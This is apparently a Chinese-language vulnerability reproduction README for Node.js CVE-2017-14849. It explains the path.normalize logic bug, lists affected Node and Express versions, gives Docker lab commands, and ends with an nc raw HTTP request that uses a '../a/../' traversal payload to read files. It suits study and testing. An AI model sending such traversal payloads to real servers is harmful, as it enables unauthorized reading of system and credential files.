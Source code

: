 # Node.js 目录穿越漏 (CVE-2017-14849)

## 影响版本

漏洞出现在Node.js v8.5.0, 在 v8.6 中就进行了修复。
+ Node.js 8.5.0 + std/path/normalize
+ Node.js 8.5.0 + Express 3.19.0-3.21.2
+ Node.js 8.5.0 + Express 4.11.0-4.15.5

## 漏洞价值

+ 读取任意目录的文件

## 漏洞原理

参考文档：
+ https://nodejs.org/en/blog/vulnerability/september-2017-path-validation/
+ https://security.tencent.com/index.php/blog/msg/121

Node.js 8.5.0 对目录进行normalize操作时出现了逻辑错误，导致向上层跳跃的时候（如../../../../../../etc/passwd），在中间位置增加foo/../（如../../../foo/../../../../etc/passwd），即可使normalize返回/etc/passwd，但实际上正确结果应该是../../../../../../etc/passwd。
```javascript
// -> path = '/etc/passwd';
const path = path.normalize('../../../foo/../../../../etc/passwd');
```
express这类web框架，通常会提供了静态文件服务器的功能，这些功能依赖于normalize函数。比如，express在判断path是否超出静态目录范围时，就用到了normalize函数，上述BUG导致normalize函数返回错误结果导致绕过了检查，造成任意文件读取漏洞。

当然，normalize的BUG可以影响的绝非仅有express，更有待深入挖掘。不过因为这个BUG是node 8.5.0 中引入的，在 8.6 中就进行了修复，所以影响范围有限。

## 漏洞复现

### 编译及运行环境：

```bash
docker build -t CVE-2017-14849:latest .
docker run -p 3000:3000 -d CVE-2017-14849
```

### 漏洞利用

发送如下数据包，即可读取Dockfile文件

```bash
nc your-ip 3000

GET /static/../../../a/../../../../srv/exploit/Dockfile HTTP/1.1
Host: your-ip:3000
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```